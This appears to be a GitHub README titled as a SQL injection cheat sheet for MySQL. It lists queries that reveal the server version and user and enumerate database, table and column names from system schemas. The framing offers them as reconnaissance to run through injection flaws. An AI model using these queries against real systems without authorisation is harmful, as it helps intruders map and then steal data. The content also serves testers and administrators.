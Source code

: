 # SQL-Injection-Cheat-Sheet

## MySQL
`SELECT @@hostname;`

`SELECT version();`
`SELECT @@version;`

`SELECT user();`
`SELECT system_user();`

#Current database
`SELECT database();`

#Get Database name
`SELECT schema_name FROM information_schema.schemata;
SELECT distinct(table_schema) FROM information_schema.tables;
SELECT distinct(table_schema) FROM information_schema.columns;
SELECT name FROM information_schema.innodb_tables;
SELECT name FROM information_schema.innodb_tablestats;
SELECT distinct(table_schema) FROM information_schema.key_column_usage;
SELECT distinct(table_schema) FROM information_schema.partitions;
SELECT distinct(table_schema) FROM information_schema.statistics;
SELECT distinct(db) FROM mysql.db;
SELECT distinct(database_name) FROM mysql.innodb_index_stats;
SELECT distinct(database_name) FROM mysql.innodb_table_stats;
SELECT distinct(table_schema) FROM sys.schema_index_statistics;
SELECT distinct(db) FROM sys.schema_object_overview;
SELECT distinct(table_schema) FROM sys.schema_table_statistics;
SELECT distinct(table_schema) FROM sys.x$schema_index_statistics;
SELECT distinct(table_schema) FROM sys.x$schema_table_statistics;`

#Get Table name
`SELECT table_name FROM information_schema.tables;
SELECT table_name FROM mysql.innodb_table_stats;
SELECT table_id,name FROM information_schema.innodb_columns;
SELECT name FROM information_schema.innodb_tables;
SELECT name FROM information_schema.innodb_tablestats;
SELECT table_name FROM information_schema.key_column_usage WHERE table_schema="{DATABASE_NAME}";
SELECT table_name FROM information_schema.partitions WHERE table_schema="{DATABASE_NAME}";
SELECT table_name FROM information_schema.statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM mysql.innodb_index_stats WHERE database_name="DATABASE_NAME";
SELECT distinct(table_name) FROM mysql.innodb_table_stats WHERE database_name="DATABASE_NAME";
SELECT distinct(table_name) FROM sys.schema_index_statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM sys.schema_table_statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM sys.x$schema_index_statistics WHERE table_schema="{DATABASE_NAME}";
SELECT distinct(table_name) FROM sys.x$schema_table_statistics WHERE table_schema="{DATABASE_NAME}";`

#Get Column name
`SELECT column_name FROM information_schema.columns WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
SELECT column_name FROM information_schema.key_column_usage WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";
SELECT column_name FROM information_schema.statistics WHERE table_schema="{DATABASE_NAME}" AND table_name="{TABLE_NAME}";`
